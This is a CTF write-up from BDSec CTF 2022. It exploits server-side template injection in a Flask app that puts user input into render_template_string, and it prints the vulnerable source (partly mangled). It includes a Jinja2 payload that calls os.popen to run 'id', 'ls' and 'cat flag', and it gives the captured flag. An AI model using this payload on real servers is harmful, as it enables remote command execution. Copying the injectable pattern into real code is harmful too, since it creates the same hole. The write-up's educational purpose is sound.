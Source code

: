 # Jungle Templating Box

An easy Web challenge !

Hello Welcome to My write up about this box that i've been played on BDsec CTF 2022 .

> First of all , let's take a view about the web page !!

![image info](https://github.com/Shakun8/BDSec-CTF-2022/blob/main/images/view.JPG)
And now let's take a look at the source code that they give us :
```python
from flask import *
app = Flask(__name__)

@app.route('/',methods=['GET', 'POST'])
def base():
    person = ""
    if request.method == 'POST':
      if request.form['name']:
        person = request.form['name']
    palte = '''
    return render_template_string(palte)
if __name__=="__main__":
	app.run("0.0.0.0",port=5000,debug=False)
```
```html
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Secure Search</title>
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.2.0-beta1/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-0evHe/X+R7YkIZDRvuzKMRqM+OrBnVFBL6DOitfPri4tjfHxaWutUpFmBp4vmVor" crossorigin="anonymous">
  </head>
  <body>
    <h1 class="container my-3">Hi, %s</h1>
    <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.2.0-beta1/dist/js/bootstrap.bundle.min.js" integrity="sha384-pprn3073KE6tl6bjs2QrFaJGz5/SUsLqktiwsUTF55Jfv3qYSDhgCecCxMW52nD2" crossorigin="anonymous"></script>
    <div class="container my-3">
        <form action="/" method="post">
            <div class="mb-3">
              <label for="text" class="form-label">Type your name here:- </label>
              <input type="text" class="form-control" name="name" id="text" value="">
            </div>
            <button type="submit" class="btn btn-primary">See magic</button>
          </form>
    </div>
</body>
</html>'''% person
```

From here we can understand that the web page is working with Flask which is a lib on python that can configure backend of the webpage and display it as well .

Cool , now let's HACK xD .

Let's write something in the paramater of name.

![image info](https://github.com/Shakun8/BDSec-CTF-2022/blob/main/images/2.JPG)

> as u can see whatever we write is printed out , it's like a variable that we can get the input and we print it .
> since we have this , what comes to my mind is SSTI exploit , we can put some payload to exec some commands and stuff. 
> let's go for it .!!


First i Tested this payload to see if it can be work : `{{7*7}}`

![image info](https://github.com/Shakun8/BDSec-CTF-2022/blob/main/images/3.JPG)

And COOL , as we can see it worked , now let's intercept this request to burpsuite

>Well since the payload is worked and it worked with jinja2 , let's get some payload to read file and exec commands
You can find all this payloads here : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md

And now let's use this paylaod : `
```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

> Let's encode it with url encode and paste it in the name paramater :

![image info](https://github.com/Shakun8/BDSec-CTF-2022/blob/main/images/burp.png)

damn , `id` command is executed , now let's see what's files are in this directory with `ls -la`

![image info](https://github.com/Shakun8/BDSec-CTF-2022/blob/main/images/burp2.JPG)

> as we can see , we have flag file , let's read it with `cat flag`
> ![image info](https://github.com/Shakun8/BDSec-CTF-2022/blob/main/images/burp3.JPG)

Cool , flag : `BDSEC{Y3Y_7H1515_7H3_F146}`

# I Hope you enjoy it !!





